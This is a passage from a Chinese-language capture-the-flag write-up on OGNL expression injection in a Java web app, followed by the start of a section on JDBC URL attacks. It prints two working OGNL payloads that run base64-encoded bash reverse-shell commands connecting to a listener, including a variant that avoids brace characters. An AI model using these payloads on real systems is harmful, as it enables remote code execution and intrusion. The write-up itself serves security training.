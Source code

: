 ```java
    }
}
```

根据参考文章可以知道这里的 username 被直接拼接进 SQL 语句, 存在 SQL 注入, 但是更进一步来讲这里存在 OGNL 表达式注入

直接反弹 shell

```json
${@java.lang.Runtime@getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9ob3N0LmRvY2tlci5pbnRlcm5hbC80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}")}
```

但是很显然是会失败的, 因为传入的命令包含了 `{` 和 `}`, 会被递归解析为另一个 OGNL 表达式的开头和结尾

这个点可能比较难, 所以后面给出了 hint

解决方案是只要不出现大括号就行, 方法很多, 这里给出一种, 利用 OGNL 调用 Java 自身的 base64 decode 方法

```json
${@java.lang.Runtime@getRuntime().exec(new java.lang.String(@java.util.Base64@getDecoder().decode('YmFzaCAtYyB7ZWNobyxZbUZ6YUNBdGFTQStKaUF2WkdWMkwzUmpjQzlvYjNOMExtUnZZMnRsY2k1cGJuUmxjbTVoYkM4ME5EUTBJREErSmpFPX18e2Jhc2U2NCwtZH18e2Jhc2gsLWl9Cg==')))}
```

urlencode 全部字符后发送, 反弹 shell, 查看环境变量拿到 flag

![image-20230930191043521](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202311021208262.png)

![image-20230930190822099](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202311021208739.png)

### TestConnection

考点: MySQL / PostgreSQL JDBC URL Attack

JDBC 就是 Java 用于操作数据库的接口, 通过一个统一规范的 JDBC 接口可以实现同一段代码兼容不同类型数据库的访问

JDBC URL 就是用于连接数据库的字符串, 格式为 `jdbc:db-type://host:port/db-name?param=value`

db-type 就是数据库类型, 例如 postgresql, mysql, mssql, oracle, sqlite

db-name 是要使用的数据库名

param 是要传入的参数, 比如 user, password, 指定连接时使用的编码类型等等

当 jdbc url 可控时, 如果目标网站使用了旧版的数据库驱动, 在特定情况下就可以实现 RCE

参考文章:

https://tttang.com/archive/1877/

https://xz.aliyun.com/t/11812

https://forum.butian.net/share/1339

pom.xml

```xml
<dependency>
    <groupId>mysql</groupId>
    <artifactId>mysql-connector-java</artifactId>
    <version>8.0.11</version>
    <scope>runtime</scope>
</dependency>

<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>

<dependency>
    <groupId>org.postgresql</groupId>
```